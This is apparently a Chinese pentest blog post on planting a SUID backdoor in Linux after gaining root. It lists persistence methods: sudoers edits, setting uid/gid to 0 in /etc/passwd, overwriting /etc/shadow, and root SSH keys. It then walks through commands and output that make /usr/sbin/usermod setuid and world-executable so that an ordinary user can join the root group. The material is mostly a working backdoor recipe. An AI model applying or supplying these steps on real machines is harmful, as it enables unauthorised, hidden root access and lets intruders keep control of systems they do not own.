 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["后门"]
title = "Linux之SUID后门"
topics = ["Pentest"]

+++

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制：

***

## 为二进制文件添加s权限从而提升为root权限方法：
1. 写sudoers添加用户  `//最佳方案`  
2. vim /etc/passwd    `//将uid和gid改为0`
3. vim /etc/shadow    `//密文覆盖`  
4. vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

***

## SUID:这个东西主要是留后门

#### 在root权限下给usermod一个s权限：

    # which usermod   //得到usermod的路径                             
    /usr/sbin/usermod
    # chmod u+s /usr/sbin/usermod
    # ls -l /usr/sbin/usermod
    -rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### usermod给其他人一个x权限：
    [root@localhost ~]# chmod o+x /usr/sbin/usermod
    [root@localhost ~]# ls -l /usr/sbin/usermod
    -rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### 切换到普通用户wyb：
```
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=500(wyb) groups=500(wyb)
	[wyb@localhost ~]$ usermod -g root wyb
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=0(root) groups=0(root)
	[wyb@localhost ~]$ exit
```

#### 验证：	
	重新用wyb连接，此时即为root权限
	[wyb@localhost ~]$ cd /root  //若能切换到此目录即证明确实获得了root权限
    [wyb@localhost root]$ ls
    anaconda-ks.cfg  install.log  install.log.syslog
